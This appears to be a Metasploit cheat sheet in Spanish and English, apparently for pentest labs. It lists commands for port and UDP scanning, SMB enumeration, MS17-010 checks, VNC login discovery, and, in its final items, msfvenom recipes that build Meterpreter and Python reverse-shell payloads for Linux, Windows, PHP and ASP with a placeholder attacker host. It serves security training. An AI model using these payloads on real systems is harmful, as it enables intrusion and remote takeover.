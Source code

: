 
# Comandos y Explicaciones

1. **`search portscan`**
   - Lista los módulos de escaneo de puertos disponibles en Metasploit.

2. **`set CONCURRENCY <valor>`**
   - Establece el número de objetivos que se escanearán simultáneamente.

3. **`set PORTS <rango>`**
   - Define el rango de puertos a escanear (ej. `1-10000`).

4. **`set RHOSTS <objetivo>`**
   - Especifica el objetivo o la red objetivo a escanear.

5. **`set THREADS <valor>`**
   - Establece el número de hilos que se utilizarán simultáneamente para acelerar el escaneo.

6. **`scanner/discovery/udp_sweep`**
   - Módulo que permite identificar rápidamente servicios que se ejecutan sobre UDP.

7. **`smb_enumshares`**
   - Módulo que permite enumerar los recursos compartidos en un sistema SMB.

8. **`systemctl start postgresql`**
   - Inicia la base de datos PostgreSQL que utiliza Metasploit.

9. **`msfdb init`**
   - Inicializa la base de datos de Metasploit.

10. **`msfconsole`**
    - Inicia la consola de Metasploit.

11. **`db_status`**
    - Verifica el estado de la base de datos en Metasploit.

12. **`workspace`**
    - Lista los espacios de trabajo disponibles.

13. **`workspace -a <nombre>`**
    - Agrega un nuevo espacio de trabajo.

14. **`workspace -d <nombre>`**
    - Elimina un espacio de trabajo existente.

15. **`db_nmap <objetivo>`**
    - Realiza un escaneo Nmap y guarda los resultados en la base de datos de Metasploit.

16. **`hosts`**
    - Muestra información sobre los hosts almacenados en la base de datos.

17. **`services`**
    - Muestra información sobre los servicios en los hosts almacenados.

18. **`hosts -R`**
    - Añade la información del host a los parámetros de RHOSTS.

19. **`use auxiliary/scanner/smb/smb_ms17_010`**
    - Utiliza el módulo de escaneo de vulnerabilidades MS17-010.

20. **`show options`**
    - Muestra las opciones configuradas para el módulo activo.

21. **`run` o `exploit`**
    - Lanza el exploit o ejecuta el módulo activo.
   
22. **`info`
    - You can use the info command for any module to have a better understanding of its use and purpose.

22. **`vnc_login`
    - can help us find login details for the VNC service.

23. **`Msfvenom`
    - allows you to generate payloads.
   
24. **`msfvenom --list formats`
    - You can either generate stand-alone payloads (e.g. a Windows executable for Meterpreter) or get a usable raw format (e.g. python).

25. **`Linux Executable and Linkable Forma`
    - `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf`
   
26. **`Windows`
    - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe`

27. **`PHP`
    - `msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php`

28. **`ASP`
    - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp`

29. **`Python`
    - `msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py`
